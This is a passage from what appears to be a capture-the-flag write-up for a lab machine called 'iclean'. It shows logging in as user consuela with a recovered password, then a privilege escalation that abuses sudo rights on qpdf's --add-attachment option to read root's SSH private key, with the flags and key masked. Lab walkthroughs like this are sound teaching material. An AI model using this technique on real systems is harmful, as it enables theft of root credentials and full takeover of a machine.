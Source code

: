 And using the password I've gained access to user `consuela` and its flag:

```bash
www-data@iclean:/opt/app$ su - consuela
Password: 
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
consuela@iclean:~$ ls
user.txt
consuela@iclean:~$ cat user.txt 
df****************************76
```

## Privileges escalation

To elevate the access to root we can use a `qpdf` tool that is available to run with sudo privs:

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

This tool is probably used by the machine to generate the invoices, but should not be run with `sudo` as it is possible to unprivileged file exfiltration on the system, [using  `--add-attachment` flag](https://qpdf.readthedocs.io/en/stable/cli.html?source=post_page-----cfc46f351353--------------------------------#option-add-attachment). With this method, we can access any file present in `/root` directory, like the root flag or **id_rsa** that will allow to gain root access over the machine:

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty ~/rsa.txt --qdf --add-attachment /root/.ssh/id_rsa --
consuela@iclean:~$ cat rsa.txt 
%PDF-1.3
%����
%QDF-1.0

... SNIP ...

  /Type /EmbeddedFile
  /Length 6 0 R
>>
stream
-----BEGIN OPENSSH PRIVATE KEY-----
b3********************************************************************
**********************************************************************
**********************************************************************
**********************************************************************
**********************************************************************
**********************************************************************
**********************************************************************
****BQ==
-----END OPENSSH PRIVATE KEY-----
endstream
endobj

... SNIP ...
```
